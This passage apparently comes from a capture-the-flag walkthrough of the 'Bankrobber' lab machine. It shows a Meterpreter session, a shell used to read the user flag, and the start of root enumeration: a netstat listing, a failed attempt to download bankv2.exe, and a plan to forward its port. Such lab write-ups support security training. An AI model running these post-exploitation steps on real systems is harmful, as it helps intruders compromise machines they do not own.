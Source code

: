     meterpreter > sysinfo
      Computer        : BANKROBBER
      OS              : Windows 10 (10.0 Build 14393).
      Architecture    : x64
      System Language : nl_NL
      Domain          : WORKGROUP
      Logged On Users : 3
      Meterpreter     : x86/windows

    meterpreter > shell
      Process 4552 created.
      Channel 1 created.
      Microsoft Windows [Version 10.0.14393]
      (c) 2016 Microsoft Corporation. Alle rechten voorbehouden.

    C:\xampp\htdocs\admin>whoami
      bankrobber\cortin
    C:\Users\Cortin\Desktop>type user.txt
      f635346600876a43441cf1c6e94769ac


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Enumerate the box to try to find a way towards root. We find the executable bankv2.exe running on port 910. We are unable to
   download the file, so instead we setup a port forward to access it locally.

meterpreter > netstat
  Connection list
  ===============
      Proto  Local address       Remote address    State        User  Inode  PID/Program name
      -----  -------------       --------------    -----        ----  -----  ----------------
      tcp    0.0.0.0:135         0.0.0.0:*         LISTEN       0     0      732/svchost.exe
      tcp    0.0.0.0:910         0.0.0.0:*         LISTEN       0     0      2160/bankv2.exe

meterpreter > ls
  Listing: C:\
  ============

  Mode                 Size               Type  Last modified                    Name
  ----                 ----               ----  -------------                    ----
  100777/rwxrwxrwx     57937              fil   2019-04-25 01:10:31 +0200        bankv2.exe

meterpreter > download bankv2.exe
  [*] Downloading: bankv2.exe -> bankv2.exe
  [-] core_channel_open: Operation failed: Access is denied.
